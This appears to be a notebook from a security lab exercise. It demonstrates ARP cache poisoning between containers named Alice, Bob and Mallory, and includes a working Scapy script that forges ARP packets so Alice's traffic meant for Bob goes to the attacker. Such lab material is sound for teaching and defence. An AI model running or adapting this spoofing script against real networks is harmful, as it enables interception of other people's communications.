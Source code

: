 # ARP Cache Poisoning Attack Demonstration

This notebook documents the process and outcomes of an ARP cache poisoning attack for educational purposes, showcasing how such an attack can be set up and verified within a controlled environment.

## Objective

To demonstrate an ARP cache poisoning attack, intercepting communications between two parties, Alice and Bob, with Mallory acting as the attacker.

## Task 1A

1. Use Scapy to craft an ARP poisoning packet.
2. Send the packet from Mallory to Alice to manipulate her ARP cache.
3. Verify the success of the attack by inspecting Alice's ARP cache.


**Task 1a: Pre-Attack ARP Table Status**

Before launching the ARP attack using a ARP poisoning packet, let's verify the current state of Alice's ARP table. As indicated by the absence of any ARP entries shown below, Alice's ARP table is currently empty.

**Explanation**: The ARP table is empty prior to the ARP attack, signifying that Alice's system has no cached ARP mappings for any devices on the network.

![Pre-Attack ARP Table Status](./alice_arp_before.png)

## Attack Execution

Below is the Python script run from Mallory's container to execute the ARP cache poisoning attack.


```python
from scapy.all import *

# Setting up addresses for Alice, Bob, and Mallory
alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
mallory_mac = "02:42:0a:00:b6:03"

# Preparing the Ethernet frame to look like it's to Alice from Mallory
ethernet_frame = Ether(src=mallory_mac, dst=alice_mac)

# Creating an ARP request pretending Mallory is Bob
arp_request = ARP(hwsrc=mallory_mac, psrc=bob_ip, hwdst=alice_mac, pdst=alice_ip, op=1)

# Combining and sending the packet
packet = ethernet_frame / arp_request
sendp(packet, iface="eth0")

print("Sent ARP spoof to make Alice think Mallory is Bob.")
```
